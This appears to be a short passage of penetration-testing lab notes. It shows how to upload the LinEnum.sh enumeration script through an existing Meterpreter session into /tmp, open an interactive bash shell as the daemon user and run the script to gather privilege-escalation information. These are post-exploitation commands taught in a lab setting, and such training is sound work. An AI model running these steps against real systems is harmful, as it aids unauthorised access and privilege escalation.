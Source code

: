 ### LinEnum

- Copy the content of the [LinEnum.sh](https://github.com/rebootuser/LinEnum/blob/master/LinEnum.sh) script and save it in the lab environment

- Back into the `Meterpreter` session, copy the **`LinEnum.sh`** file into the `/tmp` target directory 

```bash
session 1
cd /tmp
upload /root/Desktop/LinEnum.sh
shell
/bin/bash -i

id
	uid=1(daemon) gid=1(daemon) groups=1(daemon)
```

- Run **`LinEnum.sh`** and output the results in a file

```bash
chmod +x LinEnum.sh
./LinEnum.sh

# Copy the output to a txt local file
```
